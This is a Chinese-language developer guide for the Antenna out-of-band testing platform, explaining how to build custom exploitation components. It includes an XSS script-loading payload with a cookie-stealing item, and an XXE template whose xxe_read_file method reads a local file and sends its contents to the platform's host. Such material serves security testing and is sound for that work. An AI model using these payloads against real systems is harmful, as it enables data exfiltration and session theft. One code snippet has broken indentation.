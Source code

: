 ```yaml
---
sidebar_position: 2
---
```


# 如何实现自己的自定义利用组件

终于来到我们最希望让你看到的篇章，如果你认为我们的Antenna提供的组件并不能
完全你的需求，特别是不满意我们系统提供的少得可怜的组件，那我们建议你不如自己
动手制作满足你需求的利用组件，当前系统只支持利用类组件的自定义开发，关于监听
类组件自定义开发功能将在后来的版本公开

## 自定义利用组件模板

首先看一下组件基础类代码

```python

class BaseTemplate:
    info = [{
        "template_info": {
            "name": "",  # 组件名
            "title": "",  # 组件展示标题名
            "author": "",  # 组件作者
            "type": 0,  # 组件类型，1是监听0是利用
            "desc": "",  # 组件介绍
            "desc_url": "",  # 组件使用说明链接
            "choice_type": 1,  # 组件选择类型0是单选，1是多选
            "payload": "</tExtArEa>\'\"><sCRiPt sRC=//{domain}/{key}></sCrIpT>",  # 组件实例生成后展示的模板
            "file_name": "xss.py"  # 代码文件名
        },
        "item_info": [{
            "name": "xss_get_cookie",  # 组件配置名
            "config": [],  # 组件配置是否需要外界用户填写参数值
        },
            {
                "name": "xss_get_page_code",
                "config": [],
            }
        ]
    }]

    def __init__(self):
        self.ip = SERVER_IP
        self.domain = PLATFORM_DOMAIN

    def run(self, key):
        task_config_item = TaskConfigItem.objects.filter(task_config__key=key)
        if task_config_item:
            config = [{"name": i.template_config_item.name, "config": i.value, }
                      for i in
                      task_config_item]
        else:
            config = []
        return self.generate(key, config)

    def replace_code(self, code=""):
        """
        替换code
        """
        code_ = code.replace("{{domain}}", self.domain).replace("{{key}}", self.key)
        return code_

    @abstractmethod
    def generate(self, key, config):
        pass

```

### 组件的关键字

针对于组件的关键字属性(info)，可以参考下列列表去辅助你理解
#### template_info

| 参数          | 说明                               |
|-------------|----------------------------------|
| name        | 组件名,这里推荐使用全大写字母，例如DNS/HTTP/HTTPS |
| title       | 组件标题，这里推荐使用中文名，该值会直接显示在系统组件管理页面  |
| author      | 组件作者名                            |
| type        | 组件所属类型，1是监听0是利用                  |
| desc        | 组件详细介绍,该值会直接显示在系统组件管理页面          |
| desc_url    | 组件使用说明文档链接                       |
| choice_type | 组件选定功能时是否支持多选，可以参考XSS与XXE利用组件    |
| payload     | 组件实例生成的格式，配合提供的关键字               |
| file_name   | 组件对应的python文件名                   |

这里主要说明的便是payload属性，他决定着你组件生成的最终格式，Antenna提供多个关键字
供您搭配

| 关键字         | 说明                                                               |
|-------------|------------------------------------------------------------------|
| domain      | 平台域名                                                             |
| key         | 组件标识。为4位随机字符，例如HTTP_LOG组件生成的实例http://aaaa.test.com/,aaaa便是key关键字 |
| jndi_port   | ldap协议与rmi协议的socket复用端口，默认为2345                                  |
| dns_domain  | dns域名                                                            |

知道了这些关键字，还需要配合关键字标识符 **{}** 一起使用，例如DNS_LOG组件的生成
实例格式就是 **{key}.{dns_domain}** ，而XSS的利用实例格式也可以设置为 **<sCRiPt/SrC=//{domain}/{key}>**
这样你的组件生成实例就是**abcd.log.test.com** 和 **<sCRiPt/SrC=//test.com/bcde>** 
#### item_info
| 属性         | 说明                                             |
|------------|------------------------------------------------|
| name       | 功能名，一定要保证name与代码实现该功能的方法名一致                    |
| config     | 功能需用户输入的外部参数，例如读取文件就需要用户输入读取的文件路径，这里的参数值由个人自定义 |

这里只需要注意 功能名与代码实现该功能的方法名保持一致，如果name叫做xss_get_cookie,那你就需要创建xss_get_cookie
方法并在该方法中实现你想要的功能

## 开发XXE组件

由于利用组件的作用在于返回一些能够触发漏洞的响应内容，所以只需要调用gengerate方法选择使用的匹配使用组件就好啦，基类会提供给平台的**
IP**与**域名**
方便各位使用
那让我们尝试创建一个XXE 读取文件的组件吧

### 组件信息配置 Template_info

```python
class XxeTemplate(BaseTemplate):
    info = [{
        "template_info": {
            "name": "XXE",  # 组件名
            "title": "XXE漏洞利用组件",  # 组件展示标题名
            "author": "bios000",  # 组件作者
            "type": 0,  # 组件类型，1是监听0是利用
            "desc": "",  # 组件介绍
            "desc_url": "",  # 组件使用说明链接
            "choice_type": 1,  # 组件选择类型0是单选，1是多选
            "payload": """<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY % xd SYSTEM "http://{domain}/{key}">
    %xd;
]>
<root>&bbbb;</root>""",
            "file_name": "xxe.py"
        },
        "item_info": [{
            "name": "xxe_read_file",
            "config": ["path"],
        }],
    }]
```

按照XXE的漏洞特性，填写组件相关配置信息， 其中需要说明的是item_info相关信息

```json
"item_info": [
{
"name": "xxe_read_file",
"config": ["path"],
}
],
```

由于我们想实现一个读取文件的功能，而且也需要用户输入他们想读取的文件路径,所以这里在config中加入一个自定义参数**path**
，提供给用户使其输入
当然你想叫**abc** 也可以，不过我们建议使用用户可以容易明白的名字。

### 逻辑方法 xxe_read_file

```python
    def xxe_read_file(self, item):
    """
    读取文件
    """
read_file_code = """<!ENTITY % aaaa SYSTEM "file://{{path}}">
<!ENTITY % demo "<!ENTITY bbbb SYSTEM 'http://{{domain}}/{{key}}?message=%aaaa;'>">
%demo;
        """
code = read_file_code.replace("{{domain}}", self.domain).replace("{{key}}", self.key).replace("{{path}}", item[
    "config"]["path"])

return code
```

这里注意你的方法名需要与之前template_info中item的name保持一致，不然平台接收到组件生成实例的请求后并不能准确的找到你写的逻辑方法
，由于我们的组件生成实例，其中 **{{domain}}**和**{{key}}**在执行中将替换成平台的域名以及该组件创建实例后生成的key，**
{{path}}** 会替换为你需要用户输入读取文件参数的值

### 平台接收后如何寻找到你的组件模板-generate

```python
def generate(self, key, config):
    code = ''
    self.key = key
    try:
        for i in config:
            item_name = i["name"]
            for name in self.__dir__():
                if name == item_name:
                    code = code + getattr(self, name)(i)
        return HttpResponse(code, content_type='application/xhtml+xml')
    except Exception as e:
        import traceback
        traceback.print_exc()
        return Response({'status': 'false', 'message': '操作失败'})
```

gengerate方法通过所搜该类中所有的方法名来判断该执行哪个符合用户需求的返回资源逻辑
然后将资源以http的形式返回，注意我们的content_type需要改成xml格式
这样一个简单的组件就写好了